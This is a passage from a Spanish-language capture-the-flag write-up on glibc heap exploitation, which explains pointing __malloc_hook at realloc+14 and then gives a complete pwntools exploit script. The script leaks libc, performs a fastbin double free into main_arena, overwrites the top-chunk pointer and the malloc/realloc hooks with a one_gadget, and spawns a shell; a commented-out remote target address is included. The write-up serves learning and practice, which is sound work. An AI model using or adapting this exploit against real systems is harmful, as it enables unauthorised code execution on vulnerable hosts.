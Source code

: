Debuggeando un poco, conseguimos que `[rsp+0x50]` sea nulo si apuntamos `__malloc_hook` a `realloc+14`. Esto equivale a apuntarlo a `libc.address + 0x83b2e`.

Tras sobreescribir los hooks de la forma descrita, podemos alloquear un nuevo chunk y nustro `one_gadget` se ejecuta correctamente. Obtenemos la shell :D

A modo de precaucion, para no tener problemas con el top chunk al hacer esta ultima llamada a malloc, deje un chunk libre de size 24 (fastbin) en el heap, por lo que una allocacion de ese size provendra de ahi y no del top chunk.

Aqui les dejo el exploit completo:

```python
#!/usr/bin/python
from pwn import *

context.log_level = "DEBUG"
elf = ELF("./test")
libc = ELF("./libc.so.6")
#p = gdb.debug(elf.path, "c")
p = process(elf.path)
#p = remote("10.150.0.4", 9925)

# Funciones wrapper para el binario
def alloc(size=0x48, data=""):
    p.sendlineafter("> ", "1")
    p.sendlineafter("size: ", str(size))
    if data != "":
        p.sendafter("data: ", data)
    else:
        p.sendlineafter("data: ", data)

def free(ind):
    p.sendlineafter("> ", "2")
    p.sendlineafter("index: ", str(ind))

p.recvuntil("droide!!! ")
leak = int(p.recvline(), 16)
libc.address = leak - libc.sym.puts

alloc(24)
free(0) # Chunk para que la allocacion final no venga del top chunk

alloc(0x78)
free(1) # Introducimos este chunk como cabeza del fastbin de size 0x80 para hacer fastbin dup a main_arena

alloc(0x48)
alloc(0x48)

free(2)
free(3)
free(2) # Fastbin dup

alloc(0x48, p64(libc.address + 0x3b4b9d)) # Address para nuestro chunk en main_arena

alloc(0x48)
alloc(0x48)

alloc(0x48, "AAAABBBB"*2 + "CCC" + p64(libc.address + 0x3b4b2c)) # Sobreexcribimos la direccion del top chunk

alloc(0x58, "AAAABBBBCCCC" + p64(libc.address + 0xe1fa1) + p64(libc.address + 0x83b2e)) # sobreescribimos __realloc_hook y __malloc_hook

p.sendlineafter("> ", "1")
```